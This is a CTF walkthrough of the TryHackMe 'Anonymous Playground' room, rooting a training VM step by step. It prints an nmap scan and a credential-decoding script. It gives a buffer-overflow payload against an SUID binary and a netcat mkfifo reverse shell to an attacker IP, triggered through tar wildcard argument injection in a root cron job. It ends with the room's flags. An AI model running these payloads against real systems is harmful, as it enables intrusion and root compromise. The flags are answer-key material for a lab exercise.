


# Anonymous Playground

Want to become part of Anonymous? They have a challenge for you. Can you get the flags and become an operative?

[Anonymous Playground](https://tryhackme.com/room/anonymousplayground)

- Network Enumeration
- Web Poking
- Cookie Manipulation
- Python Scripting (Decoding)
- Reverse Engineering
- Exploiting Crontab

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Prove Yourself

So, you've decided to sign up with Anonymous? Well, it won't be that easy. They've constructed a vulnerable CTF machine for
you to hack your way into and prove you have what it takes to become a member of Anonymous. Can you do it? Do you have
what it takes?

There's 3 flags on this machine. Two will be users, the other user will be the almighty root.

I have to credit Robin for his insane dedication to helping me with all of my RE and Binex questions. Without his patience,
I would have never been able to create this room the way I had imagined it. So thank you sir.

Also credit goes to Sq00ky for the super special idea found in the initial foothold stage (not going to give any
spoilers away!)

Please allow 3-5 minutes for the box to fully deploy once you hit the "Deploy" button.

```
kali@kali:~/CTFs/tryhackme/Anonymous Playground$ sudo nmap -A -sS -sC -sV -O 10.10.149.68
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-20 18:10 CEST
Nmap scan report for 10.10.149.68
Host is up (0.034s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 60:b6:ad:4c:3e:f9:d2:ec:8b:cd:3b:45:a5:ac:5f:83 (RSA)
|   256 6f:9a:be:df:fc:95:a2:31:8f:db:e5:a2:da:8a:0c:3c (ECDSA)
|_  256 e6:98:52:49:cf:f2:b8:65:d7:41:1c:83:2e:94:24:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/zYdHuAKjP
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Proving Grounds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/20%OT=22%CT=1%CU=35745%PV=Y%DS=2%DC=T%G=Y%TM=5F8F0C
OS:04%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   35.49 ms 10.8.0.1
2   35.60 ms 10.10.149.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.98 seconds
```

[http://10.10.149.68/robots.txt](http://10.10.149.68/robots.txt)

```
User-agent: *
Disallow: /zYdHuAKjP
```

[http://10.10.149.68/zYdHuAKjP/](http://10.10.149.68/zYdHuAKjP/)





`hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN`

```py
def positions(str):
    list1 = []
    for i in str:
        list1.append((ord(i) & 31))

    res = []
    for ele in range(0, len(list1), 2):
        res.append((list1[ele] + list1[ele + 1]) % 26)


    for i in range(len(res)):
        print(chr(res[i] + 64).lower(), end=" ")

str1 = "hEzAdCfHzA"
positions(str1)
print("::", end=" ")
str2 = "hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN"
positions(str2)
```

```
kali@kali:~/CTFs/tryhackme/Anonymous Playground$ python3 script.py
m a g n a :: m a g n a i s a n e l e p h a n t
```

`magna::magnaisanelephant`

```
magna@anonymous-playground:~$ ls -la
total 64
drwxr-xr-x 7 magna  magna  4096 Jul 10 02:17 .
drwxr-xr-x 5 root   root   4096 Jul  4 19:25 ..
lrwxrwxrwx 1 root   root      9 Jul  4 19:42 .bash_history -> /dev/null
-rw-r--r-- 1 magna  magna   220 Jul  4 16:47 .bash_logout
-rw-r--r-- 1 magna  magna  3771 Jul  4 16:47 .bashrc
drwx------ 2 magna  magna  4096 Jul  4 20:49 .cache
drwxr-xr-x 3 magna  magna  4096 Jul  7 01:04 .config
-r-------- 1 magna  magna    33 Jul  4 19:44 flag.txt
drwx------ 3 magna  magna  4096 Jul  4 20:49 .gnupg
-rwsr-xr-x 1 root   root   8528 Jul 10 01:47 hacktheworld
drwxrwxr-x 3 magna  magna  4096 Jul  4 20:47 .local
-rw-r--r-- 1 spooky spooky  324 Jul  6 21:24 note_from_spooky.txt
-rw-r--r-- 1 magna  magna   807 Jul  4 16:47 .profile
drwx------ 2 magna  magna  4096 Jul  4 20:55 .ssh
-rw------- 1 magna  magna   817 Jul  7 01:52 .viminfo
magna@anonymous-playground:~$ cat flag.txt
9184177ecaa83073cbbf36f1414cc029
```

```
magna@anonymous-playground:~$ cat note_from_spooky.txt
Hey Magna,

Check out this binary I made!  I've been practicing my skills in C so that I can get better at Reverse
Engineering and Malware Development.  I think this is a really good start.  See if you can break it!

P.S. I've had the admins install radare2 and gdb so you can debug and reverse it right here!

Best,
Spooky
```

```
magna@anonymous-playground:~$ (python -c 'print "A"*72 + "\x58\x06\x40\x00\x00\x00\x00\x00"' ; cat) | ./hacktheworld
Who do you want to hack?
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
python -c 'import pty; pty.spawn("/bin/bash")'
spooky@anonymous-playground:/home/spooky$ cat flag.txt
cat flag.txt
69ee352fb139c9d0699f6f399b63d9d7
```

```
spooky@anonymous-playground:/home/spooky$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/1 *   * * *   root    cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
```

```
spooky@anonymous-playground:/home/spooky$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f" > shell.sh
/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f" > shell.sh
spooky@anonymous-playground:/home/spooky$ echo "" > "--checkpoint-action=exec=sh shell.sh"
 shell.sh""--checkpoint-action=exec=sh
spooky@anonymous-playground:/home/spooky$ echo "" > --checkpoint=1
echo "" > --checkpoint=1
spooky@anonymous-playground:/home/spooky$
```

```
kali@kali:~/CTFs/tryhackme/Anonymous Playground$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.149.68] 41480
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
flag.txt
# cat flag.txt
bc55a426e98deb673beabda50f24ce66
```

1. User 1 Flag

`9184177ecaa83073cbbf36f1414cc029`

2. User 2 Flag

`69ee352fb139c9d0699f6f399b63d9d7`

3. Root Flag

`bc55a426e98deb673beabda50f24ce66`
